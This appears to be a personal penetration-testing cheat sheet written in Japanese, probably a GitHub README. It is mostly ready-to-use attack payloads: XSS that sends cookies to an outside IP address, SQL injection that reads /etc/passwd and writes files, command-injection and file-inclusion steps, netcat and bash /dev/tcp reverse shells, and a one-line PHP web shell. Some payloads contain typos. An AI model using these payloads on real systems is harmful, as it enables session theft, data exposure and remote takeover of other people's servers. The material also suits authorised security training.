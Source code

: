 # MyCheatSheet ver 1.0

* Decode ツール
  1. [CrackStation](https://crackstation.net/)
  2. [DenCode](https://dencode.com/ja/)
  3. [CyberChef](https://gchq.github.io/CyberChef/)
* XSS
  1. `'>"><hr>`を使用して水平線を表示
  2. `<script>alert(1)</script>`でアラート表示
  3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
* SQL Injection
  1. 入力値に`'`を入力してエラーの有無を検証
     1. エラーが帰らない場合もある。
     2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
     3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
     4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
     5. `' union select cloume_namefrom table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
     6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
* OS Command Injection
    1. 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証
* CSRF
    1. 正規のリクエストURLを使用してリンクを作成 (URL短縮サービス等を利用すると判別が困難になる。)
    2. 作成したリンクからリクエストが通るかを検証(Refererを検証)
    3. PoCジェネレーターを使用するとHTMLを簡単に作れる。
       [PoC Generrator](https://security.love/CSRF-PoC-Genorator/)
* File Inclusion(Remote)
    1. クエリストリングにファイル名があるかを確認
    2. phpinfo()を実行させるphpファイルを作成
    3. ローカルでhttpサーバを立てる`python -m http.server 1030`
    4. 攻撃したいURLの`file=`にローカルのphpファイルのパスを記述
* File Inclusion(Local)
    1. ファイルアップロード時にファイルパスを確認できるかを検証
* 遠隔からのシェル
  * ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
  * アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
  * バインドシェル・リバースシェル netcatを使用
    1. 待ち受け　`nc -vlp 1027`
    2. 接続     `nc -v 192.168.11.144 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
    3. ncがない場合の接続
       1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
       2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
    4. シェルの安定化
       1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
       2. `Ctrl-z`
       3. `stty raw -echo; fg`
       4. `export SHELL=[your shell]`
       5. `export TERM=[your terminal]`
  * Webシェル
    1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
    2. アップしたphpファイルを利用してweb経由でコマンド実行
        `<?php system($_GET["cmd"]); ?>`
    3. 高級webシェル
   　　[コンソールみたいなwebシェル](https://github.com/eb3095/php-shell/tree/master/php-shell.php)
